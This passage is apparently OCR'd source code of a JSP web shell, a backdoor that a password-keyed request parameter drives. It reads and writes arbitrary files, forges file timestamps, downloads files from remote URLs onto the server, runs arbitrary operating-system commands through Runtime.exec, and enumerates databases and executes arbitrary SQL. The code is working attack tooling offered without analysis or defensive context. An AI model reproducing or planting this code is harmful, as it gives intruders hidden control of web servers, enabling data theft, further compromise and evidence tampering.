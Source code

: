 ```java
void HH(String s,String d)throws Exception{File sf=new File(s),df=new File(d);if(sf.isDirectory()){if(!df.exists()){df.mkdir();}File z[]=sf.listFiles();
for(int j=0;j<z.length;j++){HH(s+"/"+z[j].getName(),d+"/"+z[j].getName());}
}else{FileInputStream is=new FileInputStream(sf);FileOutputStream os=new FileOutputStream(df);
int n;byte[] b=new byte[512];while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}is.close();os.close();}}
void II(String s,String d)throws Exception{File sf=new File(s),df=new File(d);sf.renameTo(df);}void JJ(String s)throws Exception{File f=new File(s);f.mkdir();}
void KK(String s,String t)throws Exception{File f=new File(s);SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
java.util.Date dt=fm.parse(t);f.setLastModified(dt.getTime());}
void LL(String s, String d)throws Exception{URL u=new URL(s);int n;FileOutputStream os=new FileOutputStream(d);
HttpURLConnection h=(HttpURLConnection)u.openConnection();InputStream is=h.getInputStream();byte[] b=new byte[512];
while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}os.close();is.close();h.disconnect();}
void MM(InputStream is, StringBuffer sb)throws Exception{String l;BufferedReader br=new BufferedReader(new InputStreamReader(is));
while((l=br.readLine())!=null){sb.append(l+"\r\n");}}
void NN(String s,StringBuffer sb)throws Exception{Connection c=GC(s);ResultSet r=c.getMetaData().getCatalogs();
while(r.next()){sb.append(r.getString(1)+"\t");}r.close();c.close();}
void OO(String s,StringBuffer sb)throws Exception{Connection c=GC(s);String[] t={"TABLE"};ResultSet r=c.getMetaData().getTables (null,null,"%",t);
while(r.next()){sb.append(r.getString("TABLE_NAME")+"\t");}r.close();c.close();}
void PP(String s,StringBuffer sb)throws Exception{String[] x=s.trim().split("\r\n");Connection c=GC(s);
Statement m=c.createStatement(1005,1007);ResultSet r=m.executeQuery("select * from "+x[3]);ResultSetMetaData d=r.getMetaData();
for(int i=1;i<=d.getColumnCount();i++){sb.append(d.getColumnName(i)+" ("+d.getColumnTypeName(i)+")\t");}r.close();m.close();c.close();}
void QQ(String cs,String s,String q,StringBuffer sb)throws Exception{int i;Connection c=GC(s);Statement m=c.createStatement(1005,1008);
try{ResultSet r=m.executeQuery(q);ResultSetMetaData d=r.getMetaData();int n=d.getColumnCount();for(i=1;i<=n;i++){sb.append(d.getColumnName(i)+"\t|\t");
}sb.append("\r\n");while(r.next()){for(i=1;i<=n;i++){sb.append(EC(r.getString(i),cs)+"\t|\t");}sb.append("\r\n");}r.close();}
catch(Exception e){sb.append("Result\t|\t\r\n");try{m.executeUpdate(q);sb.append("Execute Successfully!\t|\t\r\n");
}catch(Exception ee){sb.append(ee.toString()+"\t|\t\r\n");}}m.close();c.close();}
%><%
String cs=request.getParameter("z0")+"";request.setCharacterEncoding(cs);response.setContentType("text/html;charset="+cs);
String Z=EC(request.getParameter(Pwd)+"",cs);String z1=EC(request.getParameter("z1")+"",cs);String z2=EC(request.getParameter("z2")+"",cs);
StringBuffer sb=new StringBuffer("");try{sb.append("->"+"|");
if(Z.equals("A")){String s=new File(application.getRealPath(request.getRequestURI())).getParent();sb.append(s+"\t");if(!s.substring(0,1).equals("/")){AA(sb);}}
else if(Z.equals("B")){BB(z1,sb);}else if(Z.equals("C")){String l="";BufferedReader br=new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));
while((l=br.readLine())!=null){sb.append(l+"\r\n");}br.close();}
else if(Z.equals("D")){BufferedWriter bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));
bw.write(z2);bw.close();sb.append("1");}else if(Z.equals("E")){EE(z1);sb.append("1");}else if(Z.equals("F")){FF(z1,response);}
else if(Z.equals("G")){GG(z1,z2);sb.append("1");}else if(Z.equals("H")){HH(z1,z2);sb.append("1");}else if(Z.equals("I")){II(z1,z2);sb.append("1");}
else if(Z.equals("J")){JJ(z1);sb.append("1");}else if(Z.equals("K")){KK(z1,z2);sb.append("1");}else if(Z.equals("L")){LL(z1,z2);sb.append("1");}
else if(Z.equals("M")){String[] c={z1.substring(2),z1.substring(0,2),z2};Process p=Runtime.getRuntime().exec(c);
MM(p.getInputStream(),sb);MM(p.getErrorStream(),sb);}else if(Z.equals("N")){NN(z1,sb);}else if(Z.equals("O")){OO(z1,sb);}
```